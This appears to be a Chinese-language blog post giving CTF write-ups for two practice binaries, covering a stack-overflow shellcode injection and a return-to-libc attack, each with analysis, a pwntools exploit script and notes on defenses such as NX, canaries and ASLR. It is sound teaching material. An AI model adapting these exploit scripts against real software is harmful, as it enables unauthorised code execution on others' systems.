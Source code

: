 ```yaml
---
layout: post
title: 'pwn'
date: 2020-04-18
tags: pwnex
---
```



## 题目名
<h2>level1_shellcode</h2>
### 漏洞分析

![avatar](level1.png)

<h4><strong>checksec</strong> 发现什么保护都没没有开启,执行程序发现貌似提供了一个地址，而且三次执行还都在变化,由于是32位文件，所以丢进IDA中,F5</h4>
![avatar](7f9e11c2bc84884de146673bdc1d0a5.png)
<h4>在IDA ，看到先进入vunlnerable函数,后回显一句话进入vunlnerable,看看</h4>
![avatar](00ad2f69d80ed07b6343217796e2263.png)
![avatar](1df202b8523f64b146a9677403649f1.png)


<h4>看到buf,应该是栈上的变量，可知偏移量：(0x88+4),之后再填返回地址，由于可填充的字节较长，且没有任何保护，加之ida中没看到system('/bin/sh'),所以用shellcode进行攻击，即在栈区填充shellcode的代码，之后再执行，所以需要执行代码的起始地址，即buf的首地址</h4>
### 漏洞利用
代码


	Python
	from pwn import *

	context.log_level='debug'
	io = process('./level1_shellcode')
	shellcode = asm(shellcraft.sh())
	buffer=io.recvline()[14:-2]
	buf_addr = int(buffer,16)
	payload = shellcode + '\x90' * (0x88+0x4-len(shellcode)) + p32(buf_addr)
	io.sendline(payload)
	io.interactive()
	io.close()

![avatar](level11.png)

### 漏洞防护
<h4>防护手段：1.可以设置buf所在的区域（栈）不可执行，即使栈只用来存储数据，而不能执行这些数据（执行的时候是当指令了），可以开启NX保护</h4>
  <h4>2.设置检查机制，想办法在ret之前对数据设立随机值(由系统生成，传递至某一位置)，有点像关卡，比如金丝雀保护</h4>
 <h4>3.编译时使用指令，令栈不可执行 4.开启ALSR，是堆栈地址随机化，从而无法确定攻击代码的其实地址，ret的覆写值难以确定。</h4>
## 题目名
<h2>level2_return_to_libc</h2>
### 漏洞分析


![avatar](level2.png)


<h4><strong>checksec</strong>开启NX,shellcode 得凉，执行程序发现可以输入，，有与可执行文件名含libc，<strong>file</strong>一下，是动态链接文件，ldd查看依赖的共享库，之后放到IDA中，可以看到乍一看level1很像，但不一样，一开始就调用了libc库中的system函数，自然想到可能有/bin/sh,Shift F12看到/bin/sh在.data</h4>



![avatar](342b2aa1f47faddb88cec5a2d246d8c.png)


![avatar](178e3f94079c290771e4e36200ba860.png)
<h4>利用ROP，objdump分别查找对应地址</h4>

![avatar](level22.png)

![avatar](1919808-20200218101903926-1643655401.png)

<h4>借别的大佬的图理解这个漏洞</h4>
### 漏洞利用
代码
	from pwn import*

	context.log_level='debug'

	p=process('./level2_return_to_libc')


	binsh_addr=0x0804a024  #which is in .data ,it may be in libc.so at first
	#system@plt=0x08048320
	system_plt=0x08048320
	payload=(0x88+0x4)*'a'+p32(system_plt)+'cccc'+p32(binsh_addr)

	p.recvuntil('\n')
	p.send(payload)
	p.interactive()

![avatar](level23.png)

### 漏洞防护

<h4>1.ALSR开启，是动态库的装载地址不确定，从而难以确定函数地址 </h4>
<h4>2.设置检查机制，想办法在ret之前对数据设立随机值(由系统生成，传递至某一位置)，有点像关卡，比如金丝雀保护，进行栈的保护，以防止篡改ret_address</h4>
